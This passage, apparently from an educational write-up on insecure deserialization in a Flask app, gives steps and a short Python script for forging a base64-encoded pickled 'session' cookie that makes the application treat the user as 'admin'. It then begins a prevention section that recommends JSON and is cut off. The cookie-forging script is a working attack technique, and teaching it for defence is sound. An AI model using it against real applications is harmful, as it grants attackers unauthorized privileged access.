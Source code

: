 3. **Set the Malicious Cookie:**
   - Replace the existing `session` cookie in the browser with the crafted base64-encoded serialized `User` object.

4. **Access the Application:**
   - Upon accessing the index route `/`, the application deserializes the manipulated cookie.
   - Since `user.username == 'admin'`, the application grants elevated privileges, rendering the "Congratulations!" page.

### **Example: Crafting the Malicious Cookie**

```python
import pickle
import base64

# Define the User class (must match the server's User class)
class User(object):
    def __init__(self, username):
        self.username = username

# Create a malicious User object with elevated privileges
malicious_user = User('admin')

# Serialize the object using pickle
serialized_data = pickle.dumps(malicious_user)

# Encode the serialized data in base64
encoded_cookie = base64.b64encode(serialized_data).decode('utf-8')

print(encoded_cookie)
```

- **Usage:**
  - Run the above script to generate the malicious cookie value.
  - Use browser developer tools or a tool like `curl` to set the `session` cookie to the generated value.
  - Refresh the application to gain admin privileges.

---

## **Best Practices to Prevent Insecure Deserialization**

1. **Avoid Using Untrusted Serialization Formats:**
   - **Prefer Safe Formats:** Use serialization formats like **JSON** or **XML** that do not allow executable code within the serialized data.
   - **Example with JSON:**
     ```python
     import json
     from flask import Flask, request, jsonify, make_response

     app = Flask(__name__)

     class User:
         def __init__(self, username):
             self.username = username
